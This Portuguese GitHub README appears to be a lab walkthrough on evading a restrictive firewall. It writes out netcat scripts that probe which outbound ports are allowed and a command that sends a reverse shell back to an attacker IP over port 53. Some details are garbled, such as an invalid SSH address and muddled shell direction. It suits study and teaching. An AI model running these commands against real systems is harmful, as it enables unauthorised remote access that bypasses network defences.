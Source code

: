 # VENCENDO-FIREWALL-CEN-RIO-04-REVERSE-SHELL-
Este guia explica como contornar um firewall restritivo (rules4) que bloqueia todo o tráfego de entrada, mas permite algumas conexões de saída. Tentar um bindshell direto ou um reverse shell padrão falha, então precisamos identificar portas de saída permitidas e depois estabelecer um reverse shell por elas.

⚠️ Uso exclusivo para fins educacionais • Desenvolvido por M!ss s3c

Passo 1: Acessar o servidor
ssh root@1172.16.1.5


Digite a senha

Navegue até o diretório das regras de firewall:

cd /home/msfadmin/firewall

Passo 2: Limpar e aplicar regras restritivas
./limpa_rules.sh    # limpa as regras atuais do firewall
./rules4.sh         # aplica regras restritivas

Passo 3: Testar reverse shell padrão (vai falhar)

Na máquina atacante:

nc -vnlp 5050 -e /bin/bash


Na máquina alvo (via VPN ou rede direta):

nc -vn 172.20.1.73 5050


Resultado esperado: falha na conexão devido às restrições do firewall.

Passo 4: Identificar portas de saída permitidas

Precisamos descobrir quais portas de saída do servidor conseguem se conectar à máquina atacante.

4.1 Criar script de teste no servidor
nano test_fw.sh


Adicione o seguinte:

#!/bin/bash
echo "Abrindo portas..."
nc -vnlp 172.20.1.73 80 &
sleep 2
nc -vnlp 172.20.1.73 443 &
sleep 2
nc -vnlp 172.20.1.73 53 &
echo "Portas abertas"
netstat -nlpt


Esse script tenta abrir conexões do servidor para a máquina atacante em várias portas.

netstat -nlpt mostra quais conexões foram estabelecidas com sucesso.

4.2 Criar script correspondente na máquina atacante
nano open_fw.sh

#!/bin/bash
echo "Abrindo portas..."
nc -vnlp 80 &
sleep 2
nc -vnlp 443 &
sleep 2
nc -vnlp 53 &
echo "Portas abertas"
netstat -nlpt

4.3 Executar os scripts

Na máquina atacante:

./open_fw.sh


No servidor:

./test_fw.sh | grep "open"


Verifique a saída para identificar quais portas se conectaram com sucesso.

No exemplo, as portas 80, 443 e 53 estão permitidas.

Esse processo descobre quais portas de saída o firewall permite. Pode-se testar TCP ou UDP.

Passo 5: Estabelecer reverse shell

Na máquina atacante, escute em uma porta permitida:

nc -vnlp 53


No servidor alvo, conecte de volta para o IP da máquina atacante usando a porta permitida:

nc -vn <IP-atacante> 53 -e /bin/bash


Substitua <IP-atacante> pelo IP da máquina atacante.

Quando a conexão mostrar OPEN, o reverse shell foi estabelecido com sucesso.

Passo 6: Verificar conexão

Na máquina atacante:

ifconfig eth0


Confirma que você tem acesso à shell através da porta de saída permitida.

👉 O que você aprendeu aqui

Firewalls restritivos podem bloquear conexões diretas, mas conexões de saída podem ser usadas para reverse shell.

Scripts de teste de portas ajudam a identificar quais portas são permitidas pelo firewall.

Usar reverse shell pelas portas permitidas contorna regras restritivas.

Sempre valide portas permitidas antes de tentar reverse shell.

⚠️ Use este método apenas em ambientes autorizados e controlados para aprendizado ou testes. Uso não autorizado é ilegal.
